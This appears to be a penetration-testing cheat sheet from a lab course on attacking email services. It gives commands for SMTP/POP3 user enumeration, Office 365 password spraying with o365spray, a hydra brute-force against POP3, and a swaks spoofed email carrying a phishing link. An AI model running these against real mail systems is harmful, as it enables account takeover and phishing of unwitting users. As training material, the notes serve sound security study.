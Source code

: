 TCP/25 - SMTP unencrypted
TCP/143 IMAP4 unencrypted
TCP/110 POP3 unencrypted
TCP/465 SMTP encrypted
TCP/587 SMTP encrypted / starttls
TCP/993 IMAP4 encrypted
TCP/995 POP3 encrypted
##### Enumeration

```shell-session
sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128
```

Host - MX Records
```shell-session
host -t MX hackthebox.eu
```
```shell-session
host -t MX microsoft.com
```

Dig - MX Records
```shell-session
dig mx plaintext.do | grep "MX" | grep -v ";"
```
```shell-session
dig mx inlanefreight.com | grep "MX" | grep -v ";"
```

Host - A Records
```shell-session
host -t A mail1.inlanefreight.htb.
```

#### Authentication

VRFY Command - check if username is valid
```shell-session
telnet 10.10.110.20 25
```
```shell-session
VRFY root
```
```shell-session
VRFY www-data
```
```shell-session
VRFY new-user
```

EXPN Command - same as VRFY and list all users on distribution list
```shell-session
telnet 10.10.110.20 25
```
```shell-session
EXPN john
```
```shell-session
EXPN support-team
```

RCPT TO Command - send to multiple recipients
```shell-session
telnet 10.10.110.20 25
```
```shell-session
RCPT TO:julio
```
```shell-session
RCPT TO:kate
```
```shell-session
RCPT TO:john
```

USER Command - POP3 enumerate users
```shell-session
telnet 10.10.110.20 110
```
```shell-session
USER julio
```
```shell-session
USER john
```


##### Automate Enumeration
- smtp-user-enum
	- VRFY
	- EXPN
	- RCPT
```shell-session
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```


##### Cloud Enumeration
- Microsoft Office 365
	- o365spray
		- https://github.com/0xZDH/o365spray
	- MailSniper
		- https://github.com/dafthack/MailSniper
- Gmail or Okta
	- CredKing
		- https://github.com/ustayready/CredKing

O365 Spray
```shell-session
python3 o365spray.py --validate --domain msplaintext.xyz
```
```shell-session
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```
```shell-session
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

##### Password Attacks
- hydra
	- SMTP
	- POP3
	- IMAP4

```shell-session
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```



#### Protocol Specifics Attacks

SMTP
- Open Relay (spoofing)
```shell-session
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```
```shell-session
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```


